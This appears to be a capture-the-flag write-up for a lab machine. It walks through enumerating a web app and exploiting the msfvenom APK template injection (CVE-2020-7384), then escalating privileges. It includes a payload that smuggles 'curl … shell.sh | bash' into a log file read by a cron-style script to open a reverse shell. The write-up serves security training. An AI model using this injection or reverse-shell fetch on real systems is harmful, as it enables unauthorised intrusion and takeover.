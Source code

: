 ip addr: 10.129.95.150


# initial enumeration

nmap result: 
![nmap](./img/script_kiddy/skid_nmap.png)

services:

| service | port | version|
|---------|-------|---------|
| ssh | 22 | 8.2p1 ubuntu|
| werkzeug httpd| 5000 | 0.16.1 (python 3.8.5 ) |

we have an http title:  `k1d'5 h4ck3r t00l5` : "kid's hacker tools"

lets run a dirbust to see what we have for directories while we check out the website:

![dirbust](./img/script_kiddy/skid_dirbuster.png)
dirbust came out empty

## The website:

![webpage](./img/script_kiddy/skid_homepage.png)

this page has some generic hacker stuff, like the nmap scan, searchsploit and the payload generator. 
it seems like it takes the given ip and runs an nmap scan on it. probably sending a filtered ip to the server and executing the nmap command. 

trying to inject code into the fields return an error but the searchsploit result returns something odd:
![searchsploit](./img/script_kiddy/skid_hacking_attempt.png)
hmmmm odd. trying to fuzz it with command injection texts don't work so maybe its a dead end? 
lets try to look at that metasploit template feature. it accepts only android, linux and windows templates. why specifically android though? that's a fairly unique template.

also it's asking for a template file. hmmm

we know we can't inject commands to the searchsploit field and the nmap field.. lets see if the metasploit payload is vulnerable to something because the android field sounds weird. 
the hunch was right, because there's a command injection vulnerability, dubbed [CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7384)
lets see if its vulnerable:

# Foothold
 
let's use the `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
from the metasploit console and generate a payload, then let's just tell the website to use our template:

![template](./img/script_kiddy/skid_template.png)


# User flag

we got a shell!

![shell](./img/script_kiddy/skid_usershell.png)

user flag was in the `kid` user home directory

# Privesc

i generated an ssh key and logged into the box with it and started running some basic enumeration and found another folder called `pwn` that has a script called `scanlosers.sh`:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

we can inject commands into that script and potentially get a shell as the `pwn` user.

i created a small file with a simple bash reverse shell, wrote a small payload and echoed it into the `hackers` file which gave me shell as pwn:

![pwn](./img/script_kiddy/skid_pwnshell.png)

payload:  `echo "a   ;curl 10.10.17.78:8000/shell.sh | bash; " > hackers `

between the `a` and the `;curl...` there are 3 spaces because the script cuts at the delimiter of space and then skips 3 characters then reaches the shell command

## Root flag
 running the command `sudo -l` shows us we can use the metasploit framework as root:
 
![privesc](./img/script_kiddy/skid_msf_privesc.png)

well since the program is running as root and we can execute commands locally, meaning we can just execute commands as root really simply:

![root](./img/script_kiddy/skid_root_id.png)

as you can see, our current privileges are root. so lets cd into the root directory:

![pwd](./img/script_kiddy/skid_pwd.png)

and read the root flag:

![root flag](./img/script_kiddy/skid_rootflag.png)



# Closing notes
thanks to [0xdf](https://twitter.com/0xdf_?s=20&t=3IbhpW5SS6NnjoPilVSLZA) for the dope and informative box, 
and thank you for reading this post :)